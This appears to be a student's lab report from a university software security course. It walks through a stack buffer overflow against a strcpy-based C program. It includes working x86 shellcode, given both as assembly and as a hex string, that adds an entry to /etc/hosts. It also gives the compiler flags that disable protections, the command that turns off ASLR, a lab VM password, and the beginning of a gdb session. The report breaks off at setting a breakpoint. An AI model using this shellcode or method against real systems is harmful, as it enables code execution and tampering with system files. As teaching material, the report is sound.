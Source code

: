 # Lab #1,22110034, Nguyen Gia Huy, INSE331280E_02FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
    char buffer[16];
    strcpy(buffer,argv[1]);
    return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Anwser 1:**

## 1. Compile asm program and C program to executable code:

*Compile the C program with `gcc`:*

```bash
gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

*Assemble the shellcode:*

```bash
nasm -f elf32 sh.asm -o sh.o
```

*Link the object file to create an executable:*

```bash
ld -m elf_i386 -o sh sh.o
```

Generate the Hex String:

```
for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

Result:

```bash
\x31\xc9\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d
```

Estimate Buffer Size:

![image-20241022100650845](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022100650845.png)

## 2. Prepare for the attack

Turn off OS's address space layout randomization:

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

> The password for seed: dees

Result:

![image-20241022111228390](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022111228390.png)

Creat link to zsh:

```bash
sudo ln -sf /bin/zsh /bin/sh
```

## 3. Conducting the attack

Load `vuln.out` in `gdb`:

```bash
gdb -q vuln.out
```

Disassemble `main` function:

```bash
gdb-peda$ disas main
```

Result:

![image-20241022110847287](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022110847287.png)

From the above result, we see that the address after the `strcpy` instruction is `0x08048423`. So we put break point at this address.

```bash
b *0x08048423
```

![image-20241022112205737](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022112205737.png)
